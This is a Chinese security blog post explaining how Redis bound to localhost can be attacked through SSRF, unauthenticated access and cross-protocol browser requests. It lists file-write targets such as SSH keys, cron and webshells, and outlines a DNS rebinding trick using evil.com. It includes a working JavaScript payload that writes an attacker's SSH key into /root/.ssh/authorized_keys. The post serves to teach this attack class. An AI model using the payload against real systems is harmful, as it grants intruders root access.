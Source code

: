 ```yaml
---
id: 751
layout: post
title: 'Redis和SSRF'
date: 2016-07-20 17:57:00
author: virusdefender
tags: 安全
---
```


> 你以为bind了127.0.0.1就安全了么？

## 本地写文件

这个爆出来很久了。原理就是利用Redis的数据持久化。设置持久化文件的名称和路径，然后在Redis中写入文件内容，给Redis发送持久化的命令，这样Redis就会将数据库的内容写入执行的文件了。详细参考 http://blog.nsfocus.net/redis-unauthorized-ssh-free-password-vulnerabilities-fixes/

这个并不一定需要SSRF，如果Redis未授权访问的，那同样可以利用。

利用点

 - 写`$Home/.ssh/authorized_keys`，root用户就是`/root`，其他用户需要猜测或者遍历用户名。
 - 写`/var/spool/cron`，然后crontab定期执行，因为Redis持久化的数据可能包含其他的数据，所以写入的文件可能有一些垃圾信息，但是crontab对格式要求比较松，避免先去`flushall ` Redis。
 - 写webshell，但是得已知路径
 - slave of `$IP` 主从模式利用
 - 写`/etc/profile.d/`用户环境变量
 - AOF类型持久化，和RDB持久化类似，但是是纯文本的格式

## Redis中数据和web应用的结合

如果控制了Redis中的数据，很多时候和直接控制了数据库是一样的，可以有针对性的修改数据。参考 https://www.seebug.org/vuldb/ssvid-91879  在Redis中更改了全局变量的值，导致任意代码执行。里面有对gopher协议的利用，参考 https://blog.chaitin.com/gopher-attack-surfaces/

## Redis Lua Sandbox Escape

详情见 http://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/

利用了Redis的Lua支持，但是Redis的Lua是有sandbox的，不能执行任意的代码，怎么去尝试绕过？

https://gist.github.com/corsix/6575486 实现的了三个功能

 - 读取`TValue`结构体中的值
 - 读取任意内存地址上的8个字节，可以导致基地址泄露
 - 任意内存地址写8个字节

作者在多个系统和多个Redis上都测试通过，Redis已经修复这个问题 https://groups.google.com/forum/#!msg/redis-db/4Y6OqK8gEyk/Dg-5cejl-eUJ

## SSRF和CSRF结合体 看网页也能被拿shell

今天看到老外发了一个脑洞，https://ericrafaloff.com/client-side-redis-attack-poc/ 使用ajax直接给Redis发送请求，也利用的是Redis的Lua支持，原文中的Demo被我修改为写入ssh公钥的，当然上面提到的其他攻击方法都可以使用。

```js
var keydir = "/root/.ssh";
var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('eval \'' + 'redis.call(\"set\", \"hacked\", "\\r\\n\\nssh-rsa AAAAB... virusdefender@LiYangs-MacBook-Pro.local\\n\\n\\n\\n\"); redis.call(\"config\", \"set\", \"dir\", \"' + keydir + '/\"); redis.call(\"config\", \"set\", \"dbfilename\", \"authorized_keys\"); ' + '\' 0' + "\r\n");

var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('save\r\n');
```

在这里有一个最大的限制就是浏览器跨域请求的问题，根据 https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS 
 简单请求是可以直接跨域发送的，但是无法收到响应，简单请求的定义如下
 
>  只使用 GET, HEAD 或者 POST 请求方法。如果使用 POST 向服务器端传送数据，则数据类型(Content-Type)只能是 application/x-www-form-urlencoded, multipart/form-data 或 text/plain中的一种。

这里符合条件，所以可以直接发送请求到Redis端口。当然，还可以利用DNS Rebinding来绕过同源策略。步骤如下

 - 解析`evil.com`到正常ip，使用比较小的TTL
 - 用户浏览页面，页面中setTimeout到100秒后发送一个ajax请求到`evil.com`
 - 解析`evil.com`到`127.0.0.1`，因为TTL很小，所以生效很快，而且浏览器也会重新发送DNS查询
 - 100秒后，请求实际被发送到了`127.0.0.1`


录了一个小视频

<video src="https://dn-virusdefender-blog.qbox.me/redis-ssrf.mp4" controls="controls"></video>

##思考
 - 还有那些服务像Redis一样是很好利用？
 - http://www.freebuf.com/articles/web/19622.html 还有哪些跨协议攻击？



